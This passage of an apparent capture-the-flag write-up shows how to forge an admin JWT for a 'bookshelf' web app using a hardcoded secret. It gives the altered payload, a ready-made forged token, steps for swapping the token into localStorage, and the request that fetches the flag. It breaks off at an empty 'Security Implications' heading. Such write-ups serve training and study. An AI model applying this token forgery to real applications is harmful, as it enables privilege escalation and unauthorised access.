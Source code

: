 ### Step 3: JWT Forgery

Using the hardcoded secret `"1234"`, forge a new JWT with admin privileges:

**Modified payload:**
```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1756482560, 
  "iat": 1755877760,
  "userId": 2,          // ← CRITICAL: Change to admin user ID
  "email": "user"
}
```

**Forged JWT:**
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NTY0ODI1NjAsImlhdCI6MTc1NTg3Nzc2MCwidXNlcklkIjoyLCJlbWFpbCI6InVzZXIifQ.V6tbi-nWk9Ji7JJrF5lEVcNG3dBXsntl2JSwwMP3JLo
```

### Step 4: Token Replacement

Replace the JWT token in browser's localStorage:
1. Open browser Developer Tools (F12)
2. Go to Application/Storage tab
3. Modify localStorage entries:
   - `auth-token`: Replace with forged JWT
   - `token-payload`: Update with new payload
4. Refresh the page

### Step 5: Access Flag

With admin privileges, access the Flag book through the web interface or directly via:
```
GET /base/books/pdf/3
Authorization: Bearer <forged_jwt>
```

## Technical Details

### Why userId=2 is Critical

The vulnerability exploitation requires changing `userId` to `2` because:

1. The JWT's `userId` claim determines which user record is fetched from the database
2. User ID 2 corresponds to the admin user with Admin role
3. The role comparison uses the database user's role, not the JWT's role claim
4. Only Admin role (value 4) can access the Flag book (also requires Admin role)

### Security Implications

